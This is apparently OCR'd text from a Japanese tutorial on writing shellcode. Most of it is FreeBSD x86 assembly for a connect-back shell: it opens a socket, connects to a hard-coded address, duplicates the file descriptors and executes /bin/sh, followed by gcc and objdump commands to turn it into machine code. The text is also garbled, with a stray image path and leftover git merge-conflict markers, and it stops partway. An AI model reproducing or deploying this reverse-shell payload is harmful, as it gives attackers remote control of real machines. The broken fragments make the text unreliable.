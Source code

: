 main:
        push       $0x61
        pop        %eax
        cdq
        push       %edx
        inc        %edx
        push       %edx
        inc        %edx
        push       %edx
        push       $0x152D5156
        int        $0x80
        push       $0x611E0210
        mov        %esp, %ecx
        push       $0x10
        push       %ecx
        push       %eax
        push       %ecx
        xchg       %edi, %eax
        push       $0x62
        pop        %eax
        int        $0x80
L1:     mov        $0x5A, %al
        push       %edx
        push       %edi
        push       %edx
        int        $0x80
        dec        %edx
        jns        L1
        push       $0x0068732F
        push       $0x6E69622F
        mov        %esp, %ebx
        push       %eax
        push       %esp
        push       %ebx
        push       %ebx
        mov        $0x3B, %al
        int        $0x80
        .string "ADDR"
<<<<<<< HEAD
-----

　アセンブラで書いて、マシン語に変換します。

-----  freebsd terminal
# gcc shellcode.s -o shellcode
# objdump -d shellcode | grep \<main\> -A 42
=======
\-\-\-\-\-
